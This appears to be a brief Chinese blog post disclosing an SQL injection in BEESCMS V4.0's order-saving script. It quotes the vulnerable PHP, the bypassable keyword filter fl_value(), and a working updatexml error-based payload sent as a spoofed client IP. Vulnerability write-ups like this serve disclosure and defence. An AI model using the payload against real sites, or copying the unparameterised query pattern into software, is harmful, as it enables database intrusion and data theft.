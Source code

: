 ```yaml
---
layout: post
title:  "BEESCMS V4.0 存在SQL注入"
comments: true
date:   2016-10-1 13:46:52
categories: php update
---
```



<blockquote><p>国庆期间看的</p></blockquote>



{% highlight html %}
/mx_form/order_save.php
{% endhighlight %}

{% highlight php %}

$ip=fl_value(get_ip()); //获取ip //过滤函数
$ip=fl_html($ip); //htmlspecialchars
$member_id=empty($_SESSION['id'])?0:$_SESSION['id'];
$arc_id=empty($f_id)?0:intval($_POST['f_id']);
$sql="insert into ".DB_PRE."formlist (form_id,form_time,form_ip,member_id,arc_id) values ({$form_id},{$addtime},'{$ip}','{$member_id}','{$arc_id}')";
$mysql->query($sql);
$last_id=$mysql->insert_id();
$sql_field='id'.$sql_field;
$sql_value=$last_id.$sql_value;
$sql="insert into ".DB_PRE."{$table} ({$sql_field}) values ({$sql_value})";
$mysql->query($sql);

{% endhighlight %}

跟函数fl_value()
fl_value()
对关键函数进行了过滤，不过貌似没有什么卵用
{% highlight php %}

./includes/fun.php

function fl_value($str){
if(empty($str)){return;}
return preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file
|outfile/i','',$str);
}


{% endhighlight %}
fl_html()
转换html 实体编码 对我们没有影响

{% highlight php %}

fl_html()
function fl_html($str){
return htmlspecialchars($str);
}
{% endhighlight %}

ok .
我们修改自己的ip为 ,前台提交订单。

8.8.8.8'or updatexml(1,concat(0x7e,(user())),0) or'


![img](https://striker.teambition.net/thumbnail/110l7ff623ac671823acdd4039ccbd8125f8/w/800/h/188)
